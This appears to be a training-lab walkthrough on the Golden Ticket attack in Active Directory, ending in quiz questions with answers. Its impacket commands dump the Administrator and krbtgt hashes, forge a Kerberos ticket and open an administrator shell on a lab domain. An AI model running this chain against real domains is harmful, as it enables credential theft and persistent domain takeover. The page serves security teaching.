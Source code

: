 #Golden Tickets

Goldent Tickets are a persistence attack in AD. They consist of TGTs that are forged by the attacker using the krbtgt's account hash. This hash value is used for deriving Kerberos keys, which are in turn used for creating and issuing TGTs. If the attacker can retrieve this account's hash, the attacker can then forge a Kerberos TGT with arbitrary information. Using this forged ticket, the attacker can then access domain services however he likes.

In order to retrieve the krbtgt's hash value, you'll need admin access to the domain. This can be achieved by performing previous attacks in this lab such as the ACL Abuse attack, the SAMAccountName spoofing attack, the NTLM relay to SMB attack, and more. If for some reason you weren't able to retrieve the administrator's hash values, run the following command, and take note of the hash value.

```
secretsdump.py -just-dc-user 'Administrator' polaris.local/Administrator:Passw0rd@192.168.122.10 
```

To forge a Golden Ticket:
```
#retrieve the polaris.local domain's SID
lookupsid.py -no-pass -hashes <admin:hashes> -domain-sids polaris.local/Administrator@192.168.122.10 0
#get the krbtgt account hash
secretsdump.py -just-dc-user 'krbtgt' polaris.local/administrator@192.168.122.10 -hashes <admin:hashes>
#example output
#[+] krbtgt:502:aad3b435b51404eeaad3b435b51404ee:640464e963ce78864650de778a6b9c31:::
#in the command below, you must use the NT hash, which in the example output i gave you, is the second value (640464e963ce78864650de778a6b9c31)
ticketer.py -nthash <krbtgt's NTHash> -domain-sid <domain SID> -domain polaris.local Administrator
#At this point you've crafted a golden ticket, a TGT referencing the administrator account, which can be used to access any service in the domain as the administrator, for a long period of time
export KRB5CCNAME=/your/dir/Administrator.ccache
#Create a shell session using the forged ticket with administrator permissions
wmiexec.py -k -no-pass polaris.local/Administrator@captain.polaris.local
whoami
```

!!! question
    What is a Golden Ticket in Active Directory?
??? success "Answer"
    A Golden Ticket is a forged Kerberos Ticket Granting Ticket (TGT) created using the krbtgt account’s NT hash. With it, an attacker can impersonate any user, including Domain Admins, and access domain resources at will.
!!! question
    Why is the krbtgt account hash required to forge a Golden Ticket?
??? success "Answer"
    The krbtgt account hash is the secret key the KDC uses to sign and validate TGTs. If an attacker has this hash, they can generate valid-looking TGTs that the KDC will accept as legitimate.
!!! question
    How can an attacker retrieve the krbtgt account hash?
??? success "Answer"
    The attacker needs domain admin–level access to dump the krbtgt account credentials. This can be achieved through other attacks such as ACL abuse, SAMAccountName spoofing or NTLM relay to SMB.